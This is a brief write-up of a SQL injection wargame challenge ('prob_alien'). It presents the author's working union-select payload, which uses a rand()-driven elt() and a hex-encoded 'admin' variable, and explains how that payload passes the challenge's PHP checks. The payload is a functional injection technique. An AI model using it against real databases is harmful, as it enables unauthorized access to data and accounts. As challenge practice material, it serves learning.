

My best payload:
```sql
'union select elt(rand(),@a)#'union select elt(rand(),@a:=0x61646d696e)
```

**345 points**


let's explain what is happening

* Query1:
```sql
select id from prob_alien where no='union select elt(rand(),@a)#'union select elt(rand(),@a:=0x61646d696e)
```

This are the first 2 if statements:
```php
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] !== "admin") exit("sandbox1");
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] === "admin") exit("sandbox2");
```

Our query will set `@a` to `admin`, and will give sometimes `admin`, and sometimes `NULL`, so once in a while we'll pass these checks.

Then, the second query is:
```sql
select id from prob_alien where no=''union select elt(rand(),@a)#'union select elt(rand(),@a:=0x61646d696e)'
```

The checks are the same, so we'll pass it on the same way.



Enhance this ...  :)